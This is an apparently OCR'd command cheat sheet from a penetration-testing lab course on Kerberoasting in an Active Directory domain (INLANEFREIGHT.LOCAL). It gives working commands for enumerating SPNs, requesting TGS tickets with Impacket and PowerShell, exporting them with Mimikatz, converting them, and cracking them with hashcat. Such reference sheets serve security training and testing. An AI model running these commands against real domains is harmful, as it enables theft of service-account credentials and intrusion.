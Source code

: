     Impacket tool used to download/request (`-request`) all TGS tickets for offline processing from a Linux-based host.

`GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev`

    Impacket tool used to download/request (`-request-user`) a TGS ticket for a specific user account (`sqldev`) from a Linux-based host.

`GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev -outputfile sqldev_tgs`

    Impacket tool used to download/request a TGS ticket for a specific user account and write the ticket to a file (`-outputfile sqldev_tgs`) linux-based host.

`hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force`

    Attempts to crack the Kerberos (`-m 13100`) ticket hash (`sqldev_tgs`) using `hashcat` and a wordlist (`rockyou.txt`) from a Linux-based host.

`setspn.exe -Q */*`

    Used to enumerate `SPNs` in a target Windows domain from a Windows-based host.

`Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"`

    PowerShell script used to download/request the TGS ticket of a specific user from a Windows-based host.

`setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }`

    Used to download/request all TGS tickets from a WIndows-based host.

`mimikatz # base64 /out:true`

    `Mimikatz` command that ensures TGS tickets are extracted in `base64` format from a Windows-based host.

`kerberos::list /export`

    `Mimikatz` command used to extract the TGS tickets from a Windows-based host.

`echo "<base64 blob>" | tr -d \\n`

    Used to prepare the base64 formatted TGS ticket for cracking from Linux-based host.

`cat encoded_file | base64 -d > sqldev.kirbi`

    Used to output a file (`encoded_file`) into a .kirbi file in base64 (`base64 -d > sqldev.kirbi`) format from a Linux-based host.

`python2.7 kirbi2john.py sqldev.kirbi`

    Used to extract the `Kerberos ticket`. This also creates a file called `crack_file` from a Linux-based host.

`sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat`

    Used to modify the `crack_file` for `Hashcat` from a Linux-based host.
